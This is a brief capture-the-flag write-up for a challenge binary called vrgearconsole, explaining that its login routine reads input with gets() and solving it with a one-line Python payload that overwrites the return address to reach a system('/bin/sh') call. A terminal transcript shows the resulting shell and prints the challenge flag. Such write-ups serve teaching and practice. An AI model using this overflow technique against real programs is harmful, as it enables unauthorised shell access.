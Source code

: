 ### Solved by superkojiman

The login() uses gets() to get the username and password. In main() a check is made to see what the value of access is. If it's less than 0x30 then we get a shell that has rights to read the flag. An easy way to solve it is to just overwrite login()'s return value to the location where system("/bin/sh") is called:

```
   0x080486d5 <+161>:   push   0x8048b6a
   0x080486da <+166>:   call   0x8048400 <system@plt>
```

Now we can pwn it: 

```
superkojiman@shell-web:/problems/9d5b4e8021c2c1e646362643de097f2c$ (python -c 'print "A"*32 + "\xd5\x86\x04\x08"'; cat) | ./vrgearconsole
+----------------------------------------+
|                                        |
|                                        |
|                                        |
|                                        |
|  Welcome to the VR gear admin console  |
|                                        |
|                                        |
|                                        |
|                                        |
+----------------------------------------+
|                                        |
|      Your account is not recognized    |
|                                        |
+----------------------------------------+




Please login to continue...


Username (max 15 characters): Password (max 31 characters):
ls
flag.txt  vrgearconsole  vrgearconsole.c
cat flag.txt
295aa5afa0b825072f47c9d40b49cc6f
```
